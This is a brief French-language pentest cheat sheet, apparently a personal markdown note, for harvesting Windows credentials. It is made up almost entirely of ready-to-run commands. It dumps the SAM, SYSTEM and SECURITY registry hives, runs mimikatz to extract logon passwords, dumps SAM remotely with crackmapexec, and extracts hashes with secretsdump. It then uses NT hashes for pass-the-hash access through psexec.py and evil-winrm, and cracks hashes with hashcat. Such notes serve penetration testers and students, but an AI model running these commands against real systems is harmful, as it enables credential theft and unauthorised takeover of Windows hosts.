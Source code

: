 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM

```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
```

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM

```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```

## Utilisation des Hash LM:NT
### Accès distant

``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
